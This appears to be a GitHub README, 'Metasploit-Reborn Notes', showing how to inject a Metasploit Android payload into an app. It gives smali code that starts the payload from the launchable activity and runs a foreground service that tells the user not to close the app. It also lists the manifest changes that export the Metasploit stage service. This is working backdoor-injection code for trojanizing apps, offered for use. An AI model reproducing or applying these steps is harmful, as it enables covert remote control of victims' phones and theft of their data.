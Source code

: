 
Metasploit-Reborn Notes :

<p align="left">
   <img src="https://raw.githubusercontent.com/blastlaboratory/Metasploit-Reborn/main/photo_2021-05-22_18-21-23.jpg" width=750px height=1000px>
</p>
<p align="left">
   <img src="https://raw.githubusercontent.com/blastlaboratory/Metasploit-Reborn/main/photo_2021-05-22_18-22-40.jpg" width=750px height=500px>
</p>

### Video Tutorial :
                                                      Metasploit-Reborn in Action
                           
https://user-images.githubusercontent.com/46685308/120068977-fb660680-c0a0-11eb-8590-e414eda0ce91.mp4

                                                       Hook Point 

At Launchable Activity

```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V	
new-instance v0, Landroid/content/Intent;
const-class v1, Lcom/example/swagkarna/ForegroundService;
invoke-direct {v0, p0, v1}, Landroid/content/Intent;-><init>(Landroid/content/Context;Ljava/lang/Class;)V
.local v0, "serviceIntent":Landroid/content/Intent;
const-string v1, "inputExtra"
const-string v2, "Warning!!!.Dont Close This App"
invoke-virtual {v0, v1, v2}, Landroid/content/Intent;->putExtra(Ljava/lang/String;Ljava/lang/String;)Landroid/content/Intent;
invoke-static {p0, v0}, Landroidx/core/content/ContextCompat;->startForegroundService(Landroid/content/Context;Landroid/content/Intent;)V

``` 

At Manifest Level  :

```
Add Permission
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
----------------------------------------------------------------------------------------------------------------------------------------
<service android:enabled="true" android:exported="true" android:name="com.example.swagkarna.ForegroundService"/>
<service android:enabled="true" android:exported="true" android:name="com.metasploit.stage.MainService"/>		
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------


<h1>I Love Kali-Linux + Metasploit + Android and Hande-Ercel</h1>

